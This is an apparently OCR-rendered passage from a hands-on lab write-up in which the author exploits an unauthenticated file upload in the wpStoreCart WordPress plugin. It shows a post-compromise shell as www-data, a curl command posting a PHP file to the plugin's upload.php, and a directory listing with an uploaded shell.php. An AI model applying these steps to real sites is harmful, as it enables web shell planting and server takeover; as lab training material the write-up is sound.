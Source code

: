 ```
| client_ip          | 10.1.0. 2|
| server_name        | f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com |
| max_execution_time | 30 |
| php_version        | 5.5.9-1ubuntu4.25 |
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ env
SUPERVISOR_GROUP_NAME=apache2
HOSTNAME=attackdefense.com
SHLVL=0
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
LAYOUT=en-us-qwerty
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
SUPERVISOR_ENABLED=1
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
base=/tmp/files
APACHE_LOG_DIR=/var/log/apache2
SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock
SUPERVISOR_PROCESS_NAME=apache2
PWD=/app/wp-content/uploads/wpstorecart
```

`echo '<?php echo "This is just an upload test php file." ?>' > ./upload_test.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php --form 'Filedata=@./upload_test.php'`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`:
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"><img alt="[ICO]" src="/icons/blank.gif"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img alt="[PARENTDIR]" src="/icons/back.gif"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img alt="[   ]" src="/icons/unknown.gif"></td><td><a href="upload_test.php">upload_test.php</a></td><td align="right">2024-11-28 14:46  </td><td align="right"> 54 </td><td>&nbsp;</td></tr> 📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

---